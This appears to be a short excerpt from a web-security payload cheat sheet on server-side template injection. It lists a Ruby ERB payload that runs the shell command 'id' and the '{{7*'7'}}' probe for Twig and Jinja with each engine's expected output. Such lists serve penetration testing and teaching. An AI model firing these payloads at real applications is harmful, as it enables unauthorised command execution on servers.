 ## Template Injection

**Ruby**

```ruby
<%=`id`%>
```

**Twig**

The following payload should output `49`.

```
{{7*'7'}}
```

**Jinja**

This payload should output `7777777`.

```
{{7*'7'}}
```
